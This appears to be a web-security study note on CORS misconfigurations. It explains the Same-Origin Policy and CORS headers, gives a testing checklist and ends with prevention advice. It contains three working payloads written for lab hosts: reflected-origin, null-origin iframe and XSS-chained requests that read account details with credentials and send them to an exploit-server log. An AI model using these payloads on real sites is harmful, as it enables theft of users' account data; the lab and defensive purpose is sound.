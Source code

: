 # Cross-Origin Resource Sharing (CORS)

Cross-Origin Resource Sharing (CORS) is a browser security feature that allows a web page from one domain (the "origin") to access resources on another domain. It is an extension of the Same-Origin Policy (SOP) and provides a way to relax its restrictions in a controlled manner.

While CORS adds flexibility, a misconfigured policy can open the door to cross-domain attacks. It is important to note that **CORS is not a protection against Cross-Site Request Forgery (CSRF)**.

## TL;DR Checks

- [ ] Check if arbitrary origins are reflected in the `Access-Control-Allow-Origin` response header
- [ ] Check if `Access-Control-Allow-Credentials` is set to `true`
- [ ] Check if null origin is reflected
- [ ] Try different variations to see if there are any parsing errors
	- [ ] subdomain.target.com
	- [ ] target.com.evil.com
	- [ ] eviltarget.com
- [ ] Check if insecure origins are allowed

## Same-Origin Policy (SOP)

The Same-Origin Policy is a fundamental security mechanism that restricts how a document or script loaded from one **origin** can interact with a resource from another origin.

An "origin" is defined by the combination of the **protocol** (e.g., `http`, `https`), **hostname** (e.g., `www.example.com`), and **port** (e.g., `80`, `443`). If all three match, the origins are the same.

**Example:**
If a page is loaded from `https://www.example.com`, the following table shows which URLs it can and cannot access data from according to the SOP:

| URL | Same Origin? | Reason |
| :--- | :---: | :--- |
| `https://www.example.com/page.html` | Yes | Same protocol, host, and port. |
| `http://www.example.com` | No | Different protocol (HTTP vs. HTTPS). |
| `https://store.example.com` | No | Different hostname (subdomain). |
| `https://www.example.com:8080` | No | Different port. |

>[!tip]
>The SOP generally allows a domain to *send* requests to other domains, but it prevents the requesting domain from *reading* the responses.

## How CORS Works

CORS allows servers to explicitly specify which origins are permitted to access their resources. This is done through HTTP headers.

- **`Access-Control-Allow-Origin`:** This is the most important CORS header. The server includes this header in its response to indicate which origins are allowed. For example:

```http
Access-Control-Allow-Origin: https://www.trusted-site.com
```

A wildcard (`*`) can be used, but this is often insecure as it allows any domain to access the resource.

- **`Access-Control-Allow-Credentials: true`**: Indicates cross-origin requests can include cookies.  

- **Preflight Requests:** For requests that can modify data (e.g., `PUT`, `DELETE`) or use certain headers, the browser first sends a "preflight" request using the `OPTIONS` method. This request checks if the server understands and approves the actual request. If the server responds favorably to the `OPTIONS` request, the browser then sends the actual request.

Payload for basic arbitrary origin reflected:

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;
req.send();

function reqListener() {
	location='//exploit-0a6500ab0499f17080cb0247015a00ab.exploit-server.net/log?key='+this.responseText; 
};
```
## Parsing Errors

Be sure to check for errors in `Origin` header parsing.

For example, suppose an application grants access to all domains ending in:

`normal-website.com`

Maybe try:

- hackersnormal-website.com
- normal-website.com.evil-user.net

Also check arbitrary subdomains:

- evil.normal-website.com

## Whilelisted NULL origin value

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Sample payload for `NULL` origin:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0adb00af04759e1980f703df00da0006.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
	location='https://exploit-0a310064045b9e858037027701af008a.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

## Exploiting XSS via CORS Trust Relationships

If the vulnerable site trusts an origin that is vulnerable to XSS, then the attacker might be able to inject JavaScript on the *trusted* site that uses CORS to steal sensitive information from the *trusting* site. 

Example payload when there's an XSS on a trusted site:

```html
<script>
document.location="http://stock.0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac4000c033411d480bf1bcb01920034.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

## Breaking TLS with Poorly Configured CORS

Be sure to check if CORS accepts insecure `http` sites. 

## Preventing CORS Misconfigurations

- If a web resource contains sensitive information, the origin should be properly specified in the `Access-Control-Allow-Origin` header. 
- Do not dynamically reflect arbitrary origins in the ACAO header.
- Avoid whitelisting `null` origins. 
- Avoid using wildcards on internal networks. Trusting network configuration alone to protect internal resources is not sufficient when internal browsers can access untrusted external domains.

>[!warning]
>CORS defines browser behaviors and is never a replacement for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data, such as authentication and session management, in addition to properly configured CORS.








